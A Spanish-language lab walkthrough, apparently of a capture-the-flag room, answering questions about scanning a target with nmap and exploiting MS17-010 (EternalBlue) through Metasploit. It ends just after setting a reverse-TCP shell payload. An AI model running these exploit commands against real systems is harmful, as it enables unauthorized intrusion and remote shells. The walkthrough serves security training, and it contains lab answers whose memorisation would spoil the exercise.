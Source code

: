 ## Reconocimiento

Escanea la máquina. (Si no está seguro de cómo abordar esto, le recomiendo que visite la sala de Nmap )
¿Cuántos puertos están abiertos con un número de puerto inferior a 1000?

    Command: nmap -sV -vv --script vuln TARGET_IP
    Solo 3 puertos son de los inferiores a  1000 el resto es superior


¿A qué es vulnerable esta máquina? (Respuesta en forma de: ms ?? - ???, ex: ms08-067)
 
    ms17-010

## Acceder

Iniciar Metasploit

	msfconsole
 
Encuentra el código de explotación que ejecutaremos contra la máquina. ¿Cuál es la ruta completa del código? (Ej: explotar / ........)

	Search eternalblue
 
    exploit/windows/smb/ms17_010_eternalblue

Muestre opciones y establezca el valor requerido. ¿Cuál es el nombre de este valor? (Todo en mayúsculas para la presentación)
Show options
 
    RHOSTS

Por lo general, estaría bien ejecutar este exploit como está; sin embargo, por el bien de aprender, debe hacer una cosa más antes de explotar el objetivo. Ingrese el siguiente comando y presione enter:

    set payload windows/x64/shell/reverse_tcp
